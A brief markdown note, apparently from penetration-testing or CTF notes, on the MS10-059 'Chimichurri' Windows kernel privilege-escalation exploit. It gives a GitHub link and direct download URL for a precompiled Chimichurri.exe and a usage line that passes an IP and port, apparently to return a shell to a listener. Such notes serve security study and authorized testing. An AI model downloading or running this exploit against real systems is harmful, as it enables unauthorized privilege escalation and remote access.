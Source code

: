 ### MS10-059 Binary Used the binaries shared by @egre55

https://github.com/egre55/windows-kernel-exploits

Direct Download  
https://github.com/egre55/windows-kernel-exploits/raw/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe

Usage
```
.\Chimichurri.exe <IP> <PORT>
```
